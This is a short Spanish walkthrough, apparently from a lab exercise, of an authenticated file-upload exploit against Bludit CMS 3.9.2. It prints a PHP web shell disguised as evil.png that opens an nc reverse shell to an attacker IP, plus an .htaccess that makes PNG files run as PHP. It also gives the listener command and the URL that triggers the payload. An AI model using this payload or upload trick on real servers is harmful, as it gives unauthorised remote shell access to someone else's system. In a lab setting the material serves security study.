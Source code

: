 ** # Bludit 3.9.2 - Directory Traversal**
https://www.exploit-db.com/exploits/48701

Exploit sobre el CMS Bludit estando autenticado en el servicio. Este exploit se basa en subir un par de ficheros al servidor:
* evil.png --> 
``` php
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.159 443 >/tmp/f");
?>
```

* .htaccess --> 
```
RewriteEngine off
AddType application/x-httpd-php .png
```

El exploit subirá estos dos archivos al servidor. Debemos poner un listener --> `nc -nlvp 443`
Acceder a la ruta donde se suben los ficheros png --> `http://10.10.10.191/bl-content/tmp/temp/evil.png`
Conseguiremos una reverse shell.

================================================================


